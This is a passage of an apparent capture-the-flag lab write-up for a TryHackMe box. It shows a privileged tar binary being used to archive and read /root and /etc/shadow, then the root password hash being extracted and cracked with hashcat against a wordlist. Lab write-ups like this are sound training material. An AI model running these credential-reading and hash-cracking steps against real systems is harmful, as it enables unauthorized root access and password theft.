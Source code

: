 ## Creating a tar of /root
```console
hades@hell:/tmp$ /bin/tar -cvf root.tar /root/
/bin/tar: Removing leading `/' from member names
/root/
/root/.gnupg/
/root/.gnupg/private-keys-v1.d/
/root/.bashrc
/root/root.txt
/root/.bash_history
/root/.ssh/
/root/.ssh/authorized_keys
/root/.cache/
/root/.cache/motd.legal-displayed
/root/.profile
```
## Extracting the root.tar archive
```console
hades@hell:/tmp$ tar -xvf root.tar 
root/
root/.gnupg/
root/.gnupg/private-keys-v1.d/
root/.bashrc
root/root.txt
root/.bash_history
root/.ssh/
root/.ssh/authorized_keys
root/.cache/
root/.cache/motd.legal-displayed
root/.profile
```

## Reading root flag
```console
hades@hell:/tmp$ cat root/root.txt 
thm{w0w**********10n}
```

## Getting a root shell
```console
hades@hell:/tmp$ /bin/tar -cvf root.tar /etc/shadow                                                                                                                             
/bin/tar: Removing leading `/' from member names                                        
/etc/shadow
hades@hell:/tmp$ tar -xvf root.tar                                                       
etc/shadow
```
### Root hash
```console
hades@hell:/tmp$ cat etc/shadow | grep -i root
root:$6$gOnbjpUs$c0IEFcbrGocU26kyzzPOqzY02e7bcawNexPsEm3oENaBIw7mVz/h9dOgaDaphveFY9ScIetMiI8F/XOnTxJxi1:18520:0:99999:7:::
```
### Cracking hash with hashcat
```console
local@local:~/Documents/tryhackme/theserverfromhell$ hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt 
hashcat (v5.1.0) starting...
                              
$6$gOnbjpUs$c0IEFcbrGocU26kyzzPOqzY02e7bcawNexPsEm3oENaBIw7mVz/h9dOgaDaphveFY9ScIetMiI8F/XOnTxJxi1:trustno1    
```